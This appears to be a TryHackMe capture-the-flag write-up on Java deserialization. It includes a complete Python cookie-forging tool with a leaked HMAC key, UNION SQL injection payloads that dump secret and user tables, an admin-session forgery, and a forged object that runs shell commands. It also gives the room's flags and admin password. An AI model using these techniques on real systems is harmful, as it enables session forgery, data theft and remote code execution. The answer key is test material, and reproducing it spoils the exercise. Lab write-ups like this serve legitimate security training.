# SerialKiller

TryHackMe
Java Deserialization
Web

SerialKiller is a web room built around one of my favourite bug classes: insecure deserialization. The twist is that the session cookie is not an opaque ID — it is a full Java object, signed with HMAC-SHA256. The signing key leaks early, so forging a session looks easy… except the server pushes every object through a class allowlist that only trusts its own classes. No ysoserial, no off-the-shelf gadget chains. You have to get creative with the application’s own code.

**Target:** `10.130.177.71`  ·  **Tools:** nmap, Firefox + DevTools, curl, python3

## Recon

I started with a service scan to see what I was dealing with.

```
nmap -sC -sV -p 80 10.130.177.71
```

Single open port on 80, and the page title gives the app away: **SerialKiller**.



*Port 80 open - the HTTP title is SerialKiller*

## The shop, and a note that should not be there

Browsing to the root shows a small store selling “security hardware for people who take serialization seriously” — a fitting theme for the room.



*The SerialKiller storefront*

Old habit: always read the page source. Right at the top of the HTML there is a developer note that was never meant to ship.

```
<!-- DevOps note: pre-prod source + config backup staged under /backup/
     (UserSession.java, ProductTemplate.java, ReportTask.java, app-config.properties.bak).
     REMOVE BEFORE PRODUCTION. -->
```



*A leftover DevOps comment pointing straight at /backup/*

## Grabbing the source and the secret

The `/backup/` directory is not listable, but the filenames from the comment are directly reachable. The config backup leaks the HMAC key used to sign the session cookie.

```
curl -s http://$T/backup/app-config.properties.bak
```



*The backup config leaks serialvault.session-key*

The three Java files are the real prize — they define the classes the server is willing to deserialize, and two of them have `readObject()` methods that do dangerous things.



*UserSession, ProductTemplate and ReportTask source*

Two sinks jump out immediately:

- `ProductTemplate.readObject()` builds SQL from its `id` field and runs it — a **SQL injection** sink.
- `ReportTask.readObject()` runs a shell command from its `command` field — an **RCE** sink.

## Logging in and meeting the cookie

The login page conveniently advertises a demo account.


*Demo credentials are printed right on the login form*

Signing in as `oranos` drops me on `/my-account` with a normal user session.



*A plain user session*

The interesting part is the cookie. DevTools shows `sv_session` — a long base64 blob, a dot, and another base64 blob. That dot is almost certainly a signature.



*sv_session in DevTools - object . signature*

## Confirming it is a Java object

Decoding the first blob settles it. The bytes `aced 0005` are the Java serialization magic, and the class name follows immediately.

```
echo 'rO0ABXNyACFjb20u...' | base64 -d | xxd | head
```



*aced0005 = Java serialization stream, class com.serialvault.model.UserSession*

So the cookie format is:

```
sv_session = base64(java-serialized-object) + "." + base64(HMAC-SHA256(key, base64_str))
```

Because we have the key from the config backup, we can mint our own objects. I wrote a small helper (`sv.py`) that hand-builds the Java serialization stream for any of the three classes and re-signs it with the leaked key.

## The forging tool — sv.py, explained

Rather than wrestle with a Java serialization library, I wrote a small helper that emits the raw bytes by hand and signs them. Every part of it maps straight onto the wire format, so it doubles as a reference for what Java serialization actually looks like.

```
#!/usr/bin/env python3
"""
sv.py — forge signed sv_session cookies for the "SerialKiller" THM room.

Cookie format:   sv_session = base64(java_serialized_object) + "." + base64(HMAC_SHA256(key, base64_str))

Allowlisted classes (com.serialvault.model):
  UserSession      uid=101  fields: issuedAt(long), role(String), username(String)
  ProductTemplate  uid=202  fields: id(String)                    -> readObject runs SQL with id
  ReportTask       uid=303  fields: command(String), reportName(String) -> readObject runs /bin/sh -c command
"""
import base64
import hashlib
import hmac
import struct
import sys
import time

KEY = b"zj0vETmPJ1S81pC4DMcFS86nkvLhGB36"

STREAM_MAGIC = bytes.fromhex("aced0005")
TC_OBJECT = b"\x73"
TC_CLASSDESC = b"\x72"
TC_STRING = b"\x74"
TC_REFERENCE = b"\x71"
TC_ENDBLOCKDATA = b"\x78"
TC_NULL = b"\x70"
BASE_HANDLE = 0x7E0000

def jstr(s: str) -> bytes:
    b = s.encode("utf-8")
    return TC_STRING + struct.pack(">H", len(b)) + b

def classdesc(name: str, uid: int, fields: list) -> bytes:
    """fields: list of (typecode, fieldname, typesig_or_None).
       typecode 'J' = long primitive; 'L' = object (typesig like 'Ljava/lang/String;')."""
    out = TC_CLASSDESC
    nb = name.encode()
    out += struct.pack(">H", len(nb)) + nb
    out += struct.pack(">q", uid)
    out += b"\x02"                      # SC_SERIALIZABLE
    out += struct.pack(">H", len(fields))
    wrote_type = False
    for tc, fname, tsig in fields:
        fb = fname.encode()
        out += tc.encode() + struct.pack(">H", len(fb)) + fb
        if tsig is not None:
            if not wrote_type:
                out += jstr(tsig)                       # first object field: full TC_STRING
                wrote_type = True
            else:
                out += TC_REFERENCE + struct.pack(">I", BASE_HANDLE + 1)  # handle of String type
    out += TC_ENDBLOCKDATA
    out += TC_NULL
    return out

def ser_user_session(username: str, role: str, issued_at: int = None) -> bytes:
    if issued_at is None:
        issued_at = int(time.time() * 1000)
    out = STREAM_MAGIC + TC_OBJECT
    out += classdesc("com.serialvault.model.UserSession", 101,
                     [("J", "issuedAt", None),
                      ("L", "role", "Ljava/lang/String;"),
                      ("L", "username", "Ljava/lang/String;")])
    out += struct.pack(">q", issued_at)
    out += jstr(role) + jstr(username)
    return out

def ser_product_template(pid: str) -> bytes:
    out = STREAM_MAGIC + TC_OBJECT
    out += classdesc("com.serialvault.model.ProductTemplate", 202,
                     [("L", "id", "Ljava/lang/String;")])
    out += jstr(pid)
    return out

def ser_report_task(command: str, report_name: str) -> bytes:
    out = STREAM_MAGIC + TC_OBJECT
    out += classdesc("com.serialvault.model.ReportTask", 303,
                     [("L", "command", "Ljava/lang/String;"),
                      ("L", "reportName", "Ljava/lang/String;")])
    out += jstr(command) + jstr(report_name)
    return out

def sign(raw: bytes) -> str:
    b64 = base64.b64encode(raw).decode()
    mac = hmac.new(KEY, b64.encode(), hashlib.sha256).digest()
    return b64 + "." + base64.b64encode(mac).decode()

def main():
    if len(sys.argv) < 2:
        print(__doc__)
        print("usage: sv.py user <username> <role>")
        print("       sv.py product <id>")
        print("       sv.py report <reportName> <command>")
        return
    mode = sys.argv[1]
    if mode == "user":
        print(sign(ser_user_session(sys.argv[2], sys.argv[3])))
    elif mode == "product":
        print(sign(ser_product_template(sys.argv[2])))
    elif mode == "report":
        print(sign(ser_report_task(sys.argv[3], sys.argv[2])))
    else:
        print("unknown mode", mode)

if __name__ == "__main__":
    main()

```

### 1. The stream tokens

Java serialization is a tag-based binary format. These constants are the tags we need:

| Constant | Bytes | Meaning |
|---|---|---|
| STREAM_MAGIC | AC ED 00 05 | stream magic + version |
| TC_OBJECT | 73 | a new object follows |
| TC_CLASSDESC | 72 | a class descriptor follows |
| TC_STRING | 74 | a UTF string (length-prefixed) |
| TC_REFERENCE | 71 | back-reference to an earlier object by handle |
| TC_ENDBLOCKDATA | 78 | end of the class descriptor block |
| TC_NULL | 70 | null (here: the class has no superclass) |

`BASE_HANDLE = 0x7E0000` is where Java starts its handle table. The class descriptor takes the first handle, so the first type signature becomes handle `0x7E0001` — which is what the reference below points at.

### 2. jstr() — writing a String

Every string — field values and type signatures alike — is written the same way: the `TC_STRING` tag, a 2-byte big-endian length, then the UTF-8 bytes. `struct.pack(">H", ...)` produces that big-endian length.

### 3. classdesc() — the class descriptor

This is the interesting part. A descriptor is made of:

- `0x72` (TC_CLASSDESC)
- the class name (2-byte length + UTF-8)
- the 8-byte `serialVersionUID` — it must match the target class exactly or the server throws `InvalidClassException` (hence 101 / 202 / 303, straight from the source)
- a flags byte, `0x02` = SC_SERIALIZABLE
- a 2-byte field count
- then one entry per field: a type code, the field name, and (for object fields) a type signature
- closing `0x78` (TC_ENDBLOCKDATA) and `0x70` (TC_NULL, no superclass)

Two rules here are easy to get wrong, and both cost me a couple of iterations:

- **Field order is not source order.** Java writes primitives first, then object fields, each group sorted alphabetically. That is why `UserSession` comes out as `issuedAt`, `role`, `username` — even though the source declares `username, role, issuedAt`.
- **A type signature is written only once.** The first object field carries the full signature (`Ljava/lang/String;`); every later object field of the same type is just a `TC_REFERENCE` to it. The `wrote_type` flag tracks that. Get it wrong and the stream still looks plausible, but the server refuses it.

I only caught both of these by **round-tripping**: I re-serialized a real captured cookie and diffed the bytes until they matched exactly. Always validate a serializer against known-good bytes before trusting it.

### 4. The three object builders

Each builder glues the pieces together — `STREAM_MAGIC + TC_OBJECT + classdesc(...)` — then writes the field values in the same order the descriptor declared them. `ser_user_session` emits the 8-byte `issuedAt` long followed by the two strings; `ser_product_template` emits a single string; `ser_report_task` emits two. The uids (101/202/303) and field names come straight from the leaked source files.

### 5. sign() — the HMAC

This is the one line I had to verify rather than assume: the server signs the **base64 text**, not the raw serialized bytes.

```
mac = hmac.new(KEY, b64.encode(), hashlib.sha256).digest()
```

The finished cookie is `b64(object) + "." + b64(mac)`. I confirmed the signed input by reproducing the server’s own signature for a captured cookie — it matched exactly.

### 6. main() — the CLI

Three verbs map onto the three classes: `user <name> <role>`, `product <id>`, and `report <name> <command>`. (For `report` the two CLI arguments are flipped when the builder is called, so the command reads naturally as the last argument.)

## Sink #1 — ProductTemplate (SQL injection) → first flag

`ProductTemplate` takes an `id`, drops it into a `WHERE category = ‘…’` clause and executes the query. When a forged `ProductTemplate` is the session object, `/my-account` even renders its `getPreview()` output — so the query result is displayed back to us.

I forged one with a UNION injection against the `vault_secrets` table:

```
python3 sv.py product "x' UNION SELECT 1, secret_value, 'c',0,0,'s','d',0 FROM vault_secrets -- "
```



*Forging a ProductTemplate carrying a UNION injection*

Dropped it into the cookie and reloaded `/my-account`. Here is the forged cookie sitting in DevTools:



*The forged ProductTemplate cookie in DevTools*



*First flag: THM{ac4cd13dcc6da590}*

That is the first flag.

> **THM{ac4cd13dcc6da590}**

## Same trick — dumping the users table

The injection is generic, so I pointed it at the `users` table instead.

```
python3 sv.py product "x' UNION SELECT 1, CONCAT(id,'|',username,'|',password,'|',role), 'c',0,0,'s','d',0 FROM users -- "
```



*Forging the users-table dump*



*The users table - administrator / 4dm1n_Xy9qL2v7rEa*

That gives us the administrator password.

> **4dm1n_Xy9qL2v7rEa**

## Forging an admin session

The admin area is gated on the `role` field of the session object. Since we mint the session ourselves, we just set it to `admin` and re-sign.

```
python3 sv.py user administrator admin
```

Swapping that into the cookie and hitting `/admin` works — the admin panel loads. (A normal user gets `403 - admin session required.`)



*The admin-only Report Generator*

## Sink #2 — ReportTask (RCE) → root flag

The admin panel tells us exactly what to do: POST a signed, serialized `ReportTask` in a field called `task`. `ReportTask.readObject()` spawns a shell and runs whatever is in its `command` field — so we point it at the root flag.

```
TASK=$(python3 sv.py report r1 "cat /root/flag.txt")
```



*Building a signed ReportTask that reads /root/flag.txt*

```
curl -i -H "Cookie: sv_session=$ADMIN" --data-urlencode "task=$TASK" \
     http://10.130.177.71/admin/report
```



*202 Accepted - the job is queued*

Output lands in the spool, downloadable at `/spool/<reportName>.out`:

```
curl -s -H "Cookie: sv_session=$ADMIN" http://10.130.177.71/spool/r1.out
```



*Root flag: THM{e41f987bebcf866c}*

> **THM{e41f987bebcf866c}**

## Answers

| Question | Answer |
|---|---|
| First flag | `THM{ac4cd13dcc6da590}` |
| Administrator password | `4dm1n_Xy9qL2v7rEa` |
| Root flag | `THM{e41f987bebcf866c}` |

## Takeaways

- **A class allowlist is not a fix on its own.** The room blocks public gadget chains, but the app’s *own* classes contained the dangerous logic — SQL built by string concatenation, and a shell exec — triggered straight from `readObject()`.
- **Never deserialize data you cannot trust.** Signing the cookie proves integrity, not safety: the moment the key leaks (here, a config backup left in the web root), an attacker can sign anything.
- **Read the page source.** A single leftover comment handed over the entire source tree and the signing key.
- **Signing keys belong in a secret manager.** The config file even had a TODO saying so.
